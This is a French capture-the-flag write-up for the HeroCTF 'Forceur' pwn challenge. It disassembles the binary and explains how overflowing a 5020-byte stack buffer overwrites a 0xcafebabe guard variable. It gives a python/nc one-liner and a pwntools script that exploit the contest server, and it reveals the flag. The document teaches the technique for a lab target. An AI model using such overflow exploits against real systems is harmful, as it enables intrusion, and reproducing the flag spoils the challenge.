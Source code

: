 # Forceur

### Catégorie
Pwn

### Description
L'organisateur essaie de vous troll... Forcez-le à vous donner le flag !!!

nc challs.heroctf.fr 7000
Format : Hero{flag}

### Auteur
SoEasY

### Fichiers
Le binaire executé par le service : BOO_1

### Solution
Pour ce premier buffer overflow, on se retrouve avec le binaire "BOO_1".
J'aime toujours faire un file pour savoir à quoi j'ai affaire.

```bash
$ file BOO_1
BOO_1: ELF 64-bit LSB shared object x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, BuildID[sha1]=a8850a66256b523ffd89da03f7cd9d841da2c3a0, for GNU/Linux 3.2.0, not stripped
```

Ok on a donc un ELF x86_64 c'est cool, on l'ouvre dans Cutter (GUI de radare2) pour voir ce qui se cache là dedans.
On désassemble la fonction main (c'est là que tout se passe) et on obtient ceci.

```nasm
171: int main (int argc, char **argv, char **envp);
; var char *s1 @ rbp-0x1390
; var uint32_t var_4h @ rbp-0x4
0x0000124b      endbr64
0x0000124f      push    rbp
0x00001250      mov     rbp, rsp
0x00001253      sub     rsp, _init ; 0x1000
0x0000125a      or      qword [rsp], 0
0x0000125f      sub     rsp, 0x390
0x00001266      mov     rax, qword [stdout] ; rdi
                                   ; 0x4010
0x0000126d      mov     esi, 0     ; char *buf
0x00001272      mov     rdi, rax   ; FILE *stream
0x00001275      call    setbuf     ; sym.imp.setbuf ; void setbuf(FILE *stream, char *buf)
0x0000127a      mov     dword [var_4h], 0xcafebabe
0x00001281      lea     rdi, str.Coucou__on_m_a_dit_que_tu_voulais_un_flag____oui_non ; 0x2050 ; const char *s
0x00001288      call    section..plt.sec ; sym.imp.puts ; int puts(const char *s)
0x0000128d      mov     rdx, qword [stdin] ; obj.stdin__GLIBC_2.2.5
                                   ; 0x4020 ; FILE *stream
0x00001294      lea     rax, [s1]
0x0000129b      mov     esi, 0x139c ; int size
0x000012a0      mov     rdi, rax   ; char *s
0x000012a3      call    fgets      ; sym.imp.fgets ; char *fgets(char *s, int size, FILE *stream)
0x000012a8      lea     rax, [s1]
0x000012af      lea     rsi, str.oui ; 0x2086 ; const char *s2
0x000012b6      mov     rdi, rax   ; const char *s1
0x000012b9      call    strcmp     ; sym.imp.strcmp ; int strcmp(const char *s1, const char *s2)
0x000012be      test    eax, eax
0x000012c0      jne     0x12d0
0x000012c2      lea     rdi, str.Eh_bah_non. ; 0x208b ; const char *s
0x000012c9      call    section..plt.sec ; sym.imp.puts ; int puts(const char *s)
0x000012ce      jmp     0x12dc
0x000012d0      lea     rdi, str.Hum_je_sais_pas_ce_que_tu_fais_l___du_coup... ; 0x2098 ; const char *s
0x000012d7      call    section..plt.sec ; sym.imp.puts ; int puts(const char *s)
0x000012dc      cmp     dword [var_4h], 0xcafebabe
0x000012e3      je      0x12ef
0x000012e5      mov     eax, 0
0x000012ea      call    getFlag    ; sym.getFlag
0x000012ef      mov     eax, 0
0x000012f4      leave
0x000012f5      ret
````

On remarque alors en début de fonction l'initialisation d'un int `var_4h` (4 octets car uint32_t) et d'un buffer de caractères `s1` (qui doit être de 5020 octets : 0x1390 + 0x4 (var_4h) + 0x8 (rbp)).

La variable `var_4h` est initialisée à `0xcafebabe`.
```nasm
0x0000127a      mov     dword [var_4h], 0xcafebabe
```
Le programme va ensuite récupérer l'input de l'utilisateur avec fgets sur stdin sur 0x139c caractères (thérorie du 5020 octets validée) et stocker le résultat dans le buffer `s1`.

```nasm
0x0000128d      mov     rdx, qword [stdin] ; obj.stdin__GLIBC_2.2.5
                                   ; 0x4020 ; FILE *stream
0x00001294      lea     rax, [s1]
0x0000129b      mov     esi, 0x139c ; int size
0x000012a0      mov     rdi, rax   ; char *s
0x000012a3      call    fgets      ; sym.imp.fgets ; char *fgets(char *s, int size, FILE *stream)
```

On remarque le call à la fonction `getFlag` si `var_4h` vaut une valeur différente de `0xcafebabe`.
```nasm
0x000012dc      cmp     dword [var_4h], 0xcafebabe
0x000012e3      je      0x12ef
0x000012e5      mov     eax, 0
0x000012ea      call    getFlag    ; sym.getFlag
0x000012ef      mov     eax, 0
```

Il va donc nous falloir overflow le buffer de 5020 char pour aller modifier la valeur de var_4h qui se trouvera juste à côté du buffer en mémoire !
Pour cela il y a deux écoles : 
- La team "one liner"
```bash
$ python -c "print('a'*5021)" | nc challs.heroctf.fr 7000
Coucou, on m'a dit que tu voulais un flag ? (oui/non)
Hum je sais pas ce que tu fais là du coup...
Hero{W0w_wh4t_4_n1c3_j0b!!}
```
- La team "pwntools"
```python
#!/usr/bin/python
from pwn import *

r = remote('challs.heroctf.fr', 7000)

r.sendline('a'*5021)

r.interactive()
r.close()
```
Exécution : 
```python
python 1.py 
[+] Opening connection to challs.heroctf.fr on port 7000: Done
[*] Switching to interactive mode
Coucou, on m'a dit que tu voulais un flag ? (oui/non)
Hum je sais pas ce que tu fais là du coup...
Hero{W0w_wh4t_4_n1c3_j0b!!}
Bravo, tu peux valider le challenge avec ce flag.
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to challs.heroctf.fr port 7000
```

### Flag
Hero{W0w_wh4t_4_n1c3_j0b!!}



